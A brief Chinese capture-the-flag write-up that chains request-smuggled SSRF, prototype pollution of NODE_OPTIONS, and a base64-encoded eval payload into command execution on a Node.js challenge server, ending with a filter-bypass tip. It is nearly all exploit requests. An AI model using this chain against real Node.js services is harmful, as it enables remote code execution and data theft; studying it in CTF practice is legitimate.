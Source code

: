 这道题目是第五空间的题目,稍微改了一下

参考 https://blog.szfszf.top/article/47/

```http
GET /?url[har][url]=http://127.0.0.1:3000/add&url[har][method]=POST&url[har][postData][mimeType]=application/json&url[har][postData][text]={"userName":"username","nameVal":"admin"} HTTP/1.1
Host: 124.16.75.162:31027
```

```http
GET /?url[har][url]=http://127.0.0.1:3000/add&url[har][method]=POST&url[har][postData][mimeType]=application/json&url[har][postData][text]={"userName":"__proto__+.env","nameVal":{"AAAA":"eval(Buffer.from(`cmVxdWlyZSgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjYXQgL2ZsYWcgPiBwdWJsaWMvdGVzdC50eHQiKQ%3d%3d`,`base64`).toString())//","NODE_OPTIONS":"-r+/proc/self/environ"}} HTTP/1.1
Host: 124.16.75.162:31027
```

```http
GET /admin HTTP/1.1
Host: 124.16.75.162:31027
```

ps: __proto__.env 或许可以用{"__proto__":"env"}来绕过


